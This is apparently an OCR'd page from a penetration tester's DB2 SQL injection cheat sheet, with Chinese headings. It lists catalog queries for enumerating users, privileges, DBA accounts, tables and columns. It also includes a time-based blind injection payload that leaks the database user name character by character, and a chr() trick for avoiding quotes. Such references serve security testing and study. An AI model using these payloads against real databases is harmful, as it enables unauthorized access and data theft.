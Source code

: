   ##### 版本
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
  ##### 注释
	--
  ##### 当前用户
	select user from sysibm.sysdummy1
	select session_user from sysibm.sysdummy1
	select system_user from sysibm.sysdummy1
  ##### 列出用户
	DB2 使用操作系统帐户
	select distinct(authid) from sysibmadm.privileges -- priv required
	select grantee from syscat.dbauth -- incomplete results
	select distinct(definer) from syscat.schemata -- more accurate
	select distinct(grantee) from sysibm.systabauth -- same as previous
  ##### 列出权限
	select * from syscat.tabauth -- shows priv on tables
	select * from syscat.tabauth where grantee = current user -- shows privs for current user
	select * from syscat.dbauth where grantee = current user;;
	select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies
  ##### 列出 DBA 帐户
	select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'
	select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’ or SYSADMAUTH = ‘G’
  ##### 当前数据库
	select current server from sysibm.sysdummy1
  ##### 列出数据库
	select distinct(table_catalog) from sysibm.tables
	SELECT schemaname FROM syscat.schemata;
  ##### 列出列
	select name, tbname, coltype from sysibm.syscolumns -- also valid syscat and sysstat
  ##### 列表表
	select table_name from sysibm.tables
	select name from sysibm.systables
  ##### 从列名中查找表
	select tbname from sysibm.syscolumns where name='username'
  ##### 选择第 N 行
	select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only
  ##### 选择第 N 个字符
	select substr('abc',2,1) FROM sysibm.sysdummy1 -- returns b
  ##### 按位与/或/非/异或
	select bitand(1,0) from sysibm.sysdummy1 -- returns 0. Also available bitandnot, bitor, bitxor, bitnot
  ##### ASCII 值
	Char	select chr(65) from sysibm.sysdummy1 -- returns 'A'
  ##### 字符 -> ASCII 值
	select ascii('A') from sysibm.sysdummy1 -- returns 65
  ##### Cast
	select cast('123' as integer) from sysibm.sysdummy1
	select cast(1 as char) from sysibm.sysdummy1
  ##### 字符串连接
	select 'a' concat 'b' concat 'c' from sysibm.sysdummy1 -- returns 'abc'
	select 'a' || 'b' from sysibm.sysdummy1 -- returns 'ab'
  ##### 避免引用
	SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1 -- returns “ADRI”. Works without select too
  ##### 时间延迟
	重查询，例如：如果用户以 ascii 68 ('D') 开头，将执行重查询，延迟响应。但是，如果用户不以 ascii 68 开头，则不会执行繁重的查询，因此响应会更快。

	' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
  ##### 序列化为 XML（基于错误）
	select xmlagg(xmlrow(table_schema)) from sysibm.tables -- returns all in one xml-formatted string
	select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables) -- Same but without repeated elements
	select xml2clob(xmelement(name t, table_schema)) from sysibm.tables -- returns all in one xml-formatted string (v8). May need CAST(xml2clob(… AS varchar(500)) to display the result.
  ##### 命令执行和本地文件访问
	只允许从程序或 UDF 中使用。

	主机名/IP 和操作系统信息
	select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info -- requires priv
	数据库文件的位置
	select * from sysibmadm.reg_variables where reg_var_name='DB2PATH' -- requires priv
	系统配置
	select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%' -- Requires priv. Retrieve the automatic maintenance settings in the database configuration that are stored in memory for all database partitions.
	select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg